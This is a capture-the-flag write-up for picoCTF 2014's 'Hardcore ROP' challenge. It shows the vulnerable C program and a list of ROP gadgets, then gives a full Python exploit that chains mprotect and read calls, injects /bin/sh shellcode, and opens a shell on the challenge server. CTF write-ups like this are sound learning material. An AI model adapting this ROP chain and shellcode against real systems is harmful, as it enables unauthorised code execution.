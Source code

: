 # Hardcore ROP

Let's take a look at the source:
```c
// PIE, NX, statically linked, with symbols.
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define MAPLEN (4096*10)

void randop() {
	munmap((void*)0x0F000000, MAPLEN);
	void *buf = mmap((void*)0x0F000000, MAPLEN, PROT_READ|PROT_WRITE, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
	unsigned seed;
	if(read(0, &seed, 4) != 4) return;
	srand(seed);
	for(int i = 0; i < MAPLEN - 4; i+=3) {
		*(int *)&((char*)buf)[i] = rand();
		if(i%66 == 0) ((char*)buf)[i] = 0xc3;
	}
	mprotect(buf, MAPLEN, PROT_READ|PROT_EXEC);
	puts("ROP time!");
	fflush(stdout);
	size_t x, count = 0;
	do x = read(0, ((char*)&seed)+count, 555-count);
	while(x > 0 && (count += x) < 555 && ((char*)&seed)[count-1] != '\n');
}

int main(int argc, char *argv[]) {
	struct stat st;
	if(argc != 2 || chdir(argv[1]) != 0 || stat("./flag", &st) != 0) {
		puts("oops, problem set up wrong D:");
		fflush(stdout);
		return 1;
	} else {
		puts("yo, what's up?");
		alarm(30); sleep(1);
		randop();
		fflush(stdout);
		return 0;
	}
}
```

Looks like the program creates a buffer at 0x0f000000 with length 40960 (0xa000), and fills it with random bytes, with rets (0xc3) sprinkled in. We also get to supply the random seed, so it stays constant with each run.

Since PIE, ASLR, and NX are enabled, we'll have to ROP using that buffer, since it's the only constant memory address we know.

Trying random seeds to generate good ROP gadgets, we find "quam", which gives us lots of goodies, including a pop/pop/pop/ret, memory dereferencing, and movs.

A list of relevant gadgets:
```
0x0f005489 : (5b5f5f247fd3cac3)	pop ebx; pop edi; pop edi; and al,0x7f; ror edx,cl; ret
0x0f003805 : (8b48a27510c3)	mov ecx,DWORD PTR [eax-0x5e]; jne 0xf00381a; ret
0x0f006c05 : (5cc3)	pop esp; ret
0x0f006827 : (5bc3)	pop ebx; ret
0x0f00062f : (5dc3)	pop ebp; ret
0x0f003e63 : (58c3)	pop eax; ret
0x0f003287 : (59c3)	pop ecx; ret
0x0f004ea1 : (5ec3)	pop esi; ret
0x0f009af1 : (5fc3)	pop edi; ret
0x0f006761 : (5ac3)	pop edx; ret
0x0f00860f : (91c3)	xchg ecx,eax; ret
0x0f00905f : (93c3)	xchg ebx,eax; ret
0x0f007067 : (92c3)	xchg edx,eax; ret
0x0f008273 : (95c3)	xchg ebp,eax; ret
0x0f00627b : (96c3)	xchg esi,eax; ret
0x0f000ffb : (97c3)	xchg edi,eax; ret
0x0f00276f : (89e2c3)	mov edx,esp; ret
0x0f0086d4 : (03eac3)	add ebp,edx; ret
0x0f002b90 : (01f5c3)	add ebp,esi; ret
0x0f008f56 : (00ddc3)	add ch,bl; ret
0x0f005721 : (03c447c3)	add eax,esp; inc edi; ret
0x0f009503 : (53c3)	push ebx; ret
0x0f00141b : (52c3)	push edx; ret
0x0f008651 : (50c3)	push eax; ret
0x0f0046a3 : (55c3)	push ebp; ret
0x0f0022cd : (56c3)	push esi; ret
0x0f004307 : (57c3)	push edi; ret
0x0f002039 : (51c3)	push ecx; ret
0x0f001443 : (89f8c3)	mov eax,edi; ret
0x0f002ecc : (29d6c3)	sub esi,edx; ret
```

Searching around in memory with ASLR in gdb enabled, we find an address that stays constant relative to the binary.

We can load the offset of that location and dereference. After manipulation, we get the addresses of mprotect and read.
We need to call mprotect and make the buffer RWX, then call read to read in our shellcode. We can then return to that, giving us a shell.

The final exploit is below:

```python
import struct
import sys
import socket
import telnetlib
import time

# seed + padding
payload = 'quam' + '\xff\xff\xff\xff\x01\x00\x00\x00'*4

# get memory address
payload += struct.pack("<I", 0x0f003e63) # pop eax
payload += struct.pack("<I", 0xf2)       # offset + 0x5e
payload += struct.pack("<I", 0x0f005721) # add eax,esp; (inc edi)
payload += struct.pack("<I", 0x0f003c2d) # inc ebx
payload += struct.pack("<I", 0x0f003805) # mov ecx,DWORD PTR [eax-0x5e]; (jne 0xf00381a)

# subtract offset
payload += struct.pack("<I", 0x0f00860f) # xchg ecx,eax
payload += struct.pack("<I", 0x0f008273) # xchg ebp,eax
payload += struct.pack("<I", 0x0f006761) # pop edx
payload += struct.pack("<I", 0x139)      # offset
payload += struct.pack("<I", 0x0f0086d4) # add ebp,edx

# call mprotect
payload += struct.pack("<I", 0x0f0046a3) # push ebp
payload += struct.pack("<I", 0x0f005489) # pop ebx; pop edi; pop edi; (and al,0x7f); (ror edx,cl)
payload += struct.pack("<I", 0xf000000)  # buffer
payload += struct.pack("<I", 0xa000)     # length
payload += struct.pack("<I", 0x7)        # rwx

# subtract offset
payload += struct.pack("<I", 0x0f006761) # pop edx
payload += struct.pack("<I", 0x409)      # offset
payload += struct.pack("<I", 0x0f0086d4) # add ebp,edx

# call read
payload += struct.pack("<I", 0x0f0046a3) # push ebp
payload += struct.pack("<I", 0x0f005489) # pop ebx; pop edi; pop edi; (and al,0x7f); (ror edx,cl)
payload += struct.pack("<I", 0x0)        # stdin
payload += struct.pack("<I", 0x0f000000) # location
payload += struct.pack("<I", 0x30)       # length

# call shellcode
payload += struct.pack("<I", 0x0f000000) # shellcode location

# shellcode
shellcode = '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('vuln2014.picoctf.com', 4000))

f = s.makefile('rw', bufsize=0)
f.write(payload+'\n')
time.sleep(2)
f.write(shellcode)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
